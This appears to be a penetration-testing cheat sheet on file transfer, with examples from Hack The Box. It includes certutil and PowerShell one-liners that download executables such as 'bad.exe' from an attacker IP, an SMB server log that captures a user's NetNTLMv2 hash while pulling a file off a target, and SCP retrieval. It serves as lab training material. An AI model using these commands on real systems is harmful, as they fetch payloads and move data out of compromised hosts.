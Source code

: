 - [Windows File Transfer](#windows-file-transfer)
	- [Certutil](#certutil)
- [Linux File Transfer](#linux-file-transfer)
	- [impacket-smbserver](#impacket-smbserver)
- [SSH/SCP](#sshscp)

# Windows File Transfer
## Certutil
### [Downloading Files with Certutil](https://www.ired.team/offensive-security/defense-evasion/downloading-file-with-certutil)
```sh
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
certutil -urlcache -f http://10.0.0.5/40564.exe bad.exe

$ip = '10.10.14.5'
certutil -urlcache -f http://$ip/40564.exe bad.exe
```
(New-Object Net.WebClient).DownloadFile('http://$ip/taskkill.exe','C:\Windows\Temp\taskkill.exe')


# Linux File Transfer
## impacket-smbserver
### [SMB](https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65)
### On Server Side (Kali)
```sh
$ impacket-smbserver share .
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

### On Client Side
```sh
tom@REEL C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors>copy acls.csv \\10.10.14.9\share                                    
        1 file(s) copied.
```

### On Server Side (Kali), received the file
```sh
[*] Incoming connection (10.10.10.77,52853)
[*] AUTHENTICATE_MESSAGE (HTB\tom,REEL)
[*] User REEL\tom authenticated successfully
[*] tom::HTB:aaaaaaaaaaaaaaaa:ce35716473cdd23a96f36ceb04c047b7:01010000000000008001dda490e0d90110624f8984ad10560000000001001000410070004900720061006c006700690003001000410070004900720061006c00670069000200100044005400690049006800610071006f000400100044005400690049006800610071006f00070008008001dda490e0d90106000400020000000800300030000000000000000000000000300000af600118190f818eb191529b8de7b91c47aaab8e73855d44e95d1b6e27fd549f0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003900000000000000000000000000
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:SHARE)
[*] Closing down connection (10.10.10.77,52853)
[*] Remaining connections []

Ctrl + C

$ ls -lh acls.csv                         
-rwxr-xr-x 1 kali kali 110K Jan  1  1970 acls.csv
```

# SSH/SCP
### 
```sh
$ ssh -i alice.pem alice1978@$t ls
lin.txt

$ scp -i alice.pem alice1978@$t:~/lin.txt .
lin.txt          100%   59KB 429.8KB/s   00:00
```

### 
```sh

```

### 
```sh

```